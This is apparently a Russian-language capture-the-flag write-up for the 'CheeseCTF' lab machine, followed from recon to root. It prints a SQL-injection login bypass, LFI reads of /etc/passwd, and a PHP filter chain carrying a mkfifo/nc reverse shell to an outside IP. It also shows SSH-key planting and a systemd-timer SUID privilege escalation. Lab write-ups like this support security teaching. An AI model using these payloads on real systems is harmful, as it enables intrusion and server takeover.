






# CheeseCTF — SQL-инъекция, LFI и повышение привилегий

## Разведка

Начал с полного сканирования хоста:

```bash
nmap -sC -sV -p- 10.144.171.54
```


Открытых портов оказалось много, но в первую очередь я сосредоточился на веб-приложении на `80/tcp`.

## SQL-инъекция в форме входа

На главной странице находилась форма авторизации. Сначала я проверил её через `XSStrike` и `sqlmap`, но автоматические проверки ничего полезного не нашли.



Затем я попробовал простую логическую инъекцию:

```text
' || '1'='1';-- -
```


После успешного входа я получил доступ к панели управления магазина.

## LFI в `secret-script.php`

В панели я обнаружил функциональность, которая принимала имя файла через параметр `file`. Проверка параметра показала признаки локального включения файлов (LFI).


Сначала я прочитал `/etc/passwd` и подтвердил, что приложение действительно обращается к файлам на сервере.


При чтении исходника `secret-script.php` приложение вернуло данные в Base64. Для получения исходного кода я использовал фильтр:

```text
php://filter/convert.base64-encode/resource=secret-script.php
```


Из исходника стало понятно, что значение `file` обрабатывается файловыми функциями PHP. Это позволило перейти от обычного чтения файлов к исследованию PHP wrappers и filter chains.

## LFI → RCE через filter chain

Простые варианты вроде log poisoning и чтения `/proc/self/environ` не дали удалённого выполнения команд: приложение только обрабатывало содержимое файла. Поэтому я использовал генератор PHP filter chain.

На своей машине подготовил payload для reverse shell:

```bash
python3 php_filter_chain_generator.py --chain "<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.134.239 4444 >/tmp/f'); ?>"
```


Генератор создал длинную цепочку фильтров, которую я передал в параметр `file`.


На Kali запустил listener:

```bash
nc -lvnp 4444
```


Соединение установилось от имени `www-data`.


Перед переходом к следующему пользователю я также проверил доступные systemd-файлы и увидел `exploit.service` и `exploit.timer`.


## Переход к пользователю `comte`

В домашней директории `comte` я обнаружил SSH-конфигурацию и файл `authorized_keys`, доступный для записи.



На Kali сгенерировал отдельную пару ключей:

```bash
ssh-keygen -t rsa -f comte_key
```



Добавил публичный ключ в `~comte/.ssh/authorized_keys`.



После этого подключился по SSH:

```bash
chmod 600 comte_key
ssh -i comte_key comte@10.144.175.143
```



Проверка `sudo -l` показала, что пользователь `comte` может управлять несколькими systemd-юнитами без пароля.



## Повышение привилегий через systemd timer

В `/etc/systemd/system` находились два связанных файла:

- `exploit.service`;
- `exploit.timer`.

Содержимое сервиса:

```ini
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```


Таймер запускал сервис практически сразу и повторял запуск каждую секунду.


Активировал таймер:

```bash
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl enable exploit.timer
sudo /bin/systemctl start exploit.timer
```

Сервис скопировал `xxd` в `/opt` и установил на копию SUID-бит. После этого я использовал `xxd` для чтения файла с флагом.


## Итоговая цепочка

1. Обошёл форму входа через SQL-инъекцию.
2. Нашёл LFI в `secret-script.php`.
3. Использовал PHP filter chain для получения reverse shell.
4. Записал свой SSH-ключ в `comte` и вошёл по SSH.
5. Использовал разрешения `sudo` и уязвимый systemd timer.
6. Получил флаг через SUID-версию `xxd`.

Основные проблемы на машине — отсутствие фильтрации пользовательского ввода, доступный для записи `authorized_keys` и небезопасная конфигурация systemd-юнита.
